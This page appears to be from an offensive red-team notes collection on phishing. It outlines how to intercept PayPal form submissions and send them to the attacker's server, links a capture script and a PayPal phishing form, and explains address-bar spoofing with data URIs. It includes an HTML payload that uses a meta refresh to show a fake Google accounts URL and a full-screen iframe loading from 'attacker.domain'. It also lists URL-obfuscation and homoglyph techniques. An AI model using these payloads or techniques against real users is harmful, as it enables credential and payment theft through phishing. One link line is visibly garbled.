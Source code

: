 # Redirect forms with Paypal
## Process
1. Run on HTML form load
2. Intercept all requests directed to PayPal
3. Route all requests to our server, eventhough the victims browser still communicate with the original PayPal webpage.

* capture_redirect.js: https://gist.github.com/anonymous/3bf8342c76eba4da3f660cbffa24f5d8
* PayPal phishing HTML form: https://gist.github.com/anonymous/75b5eb6578bbc5bfcabe44e8fbb952ea
* jquery hashchange.min.js: https://gist.github.com/anonymous/950a70cdebd3e78b6e88312fa7d93250


## Data URIs
A common technique for URL spoofing is abusing the data URI scheme.
The Data URI can show media content in a web browser without hosting the actual data on the internet.
Data URIs follow this scheme:
`data:[<mediatype>][;base64],<data>`
Here, `<mediatype>` is one of the MIME media types.
* https://gist.github.com/anonymous/907cc8e9dcc43c6a4412e682e5d5c2cd

Notice the amount of space characters `data:text/html,https://accounts.google.com` part is visible by the target. The data:text/html part could also be used in the following manner data:text/html;base64,[base64 encoded HTML source].
```
<meta http equiv="Refresh" content="0;url=data:text/html,https://accounts.google.com
<iframe src='http://attacker.domain' style='z-index:9999;overflow:hidden;position:fixed;top:0px;left:0px;bottom:0px;right:0px;width:100%;height:100%; border:none;margin:0;padding:0;'> Your browser doesn't support iFrames</iframe>">
```

## Obfuscation
* [Dotless IP addresses and URL Obfuscation](https://web.archive.org/web/20140702141151/http:/morph3us.org/blog/index.php?/archives/35-Dotless-IP-addresses-and-URL-Obfuscation.html)
* [Out of Character: Use of Punycode and Homoglyph Attacks to Obfuscate URLs for Phishing](http://www.irongeek.com/i.php?page=security/out-of-character-use-of-punycode-and-homoglyph-attacks-to-obfuscate-urls-for-phishing)
* [How to Obscure Any URL](http://www.pc-help.org/obscure.htm#how)bypass-the-patch-to-keep-spoofing-the-address-bar-with-the-malware-warning/)
* [Unicode Domains are bad](https://www.vgrsec.com/post20170219.html)
* [Phishing with Unicode Domains](https://www.xudongz.com/blog/2017/idn-phishing/)


## Tools
########
########

```meta
ttp: 
internal: false
requirements:
results: user, admin
description: Use open redirects to phish victims
```
